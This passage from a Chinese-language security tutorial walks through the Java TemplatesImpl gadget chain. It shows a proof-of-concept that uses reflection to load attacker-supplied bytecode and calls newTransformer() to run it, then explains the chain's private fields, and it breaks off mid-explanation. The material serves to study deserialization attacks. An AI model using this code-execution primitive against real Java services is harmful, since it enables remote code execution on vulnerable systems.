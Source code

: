 字节码这里的编写比较容易，我就一笔带过了，接下来我们重点关注 POC 是如何编写出来的。

因为是一整条链子，参考最开始我们讲的 URLDNS 链，我们需要设置其一些属性值，从而让我们的链子传递下去。我这里先把 POC 挂出来，结合着讲。

JAVA

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// 主程序  
public class TemplatesRce {  
    public static void main(String[] args) throws Exception{  
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));  
 TemplatesImpl templates = new TemplatesImpl();  
 setFieldValue(templates, "_name", "Calc");  
 setFieldValue(templates, "_bytecodes", new byte[][] {code});  
 setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
 templates.newTransformer();  
 }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
 field.setAccessible(true);  
 field.set(obj, value);  
 }  
}
```

我们定义了一个设置私有属性的方法，命名为 `setFieldValue`，根据我们的链子，一个个看。

> TemplatesImpl#getOutputProperties() ->
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()

- 主要是三个私有类的属性

  JAVA

  ```
  setFieldValue(templates, "_name", "Calc"); 
  ```

  

显然，`_name` 不能为 null，我们才能进入链子的下一部分。
链子的下一部分为 `defineTransletClasses`，我们跟进去。

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/defineTransletClasses.png)
